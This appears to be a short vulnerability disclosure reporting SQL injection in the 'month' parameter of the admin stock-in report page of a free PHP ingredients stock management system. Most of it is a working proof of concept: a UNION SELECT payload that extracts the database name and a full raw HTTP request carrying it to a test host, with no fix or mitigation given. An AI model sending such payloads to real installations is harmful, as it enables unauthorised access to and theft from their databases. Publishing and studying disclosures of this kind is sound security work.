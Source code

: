 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/?page=reports/stockin&month=

Vulnerability location: /isms/admin/?page=reports/stockin&month=, month

db_name = isms_db;

[+] Payload: /isms/admin/?page=reports/stockin&month=2022-07%27%20union%20select%201,2,3,4,5,6,7,database(),9,10--+ // Leak place ---> month

```sql
GET /isms/admin/?page=reports/stockin&month=2022-07%27%20union%20select%201,2,3,4,5,6,7,database(),9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/179383745-e6484a76-e52f-4b4c-9a7b-94912a793b38.png)
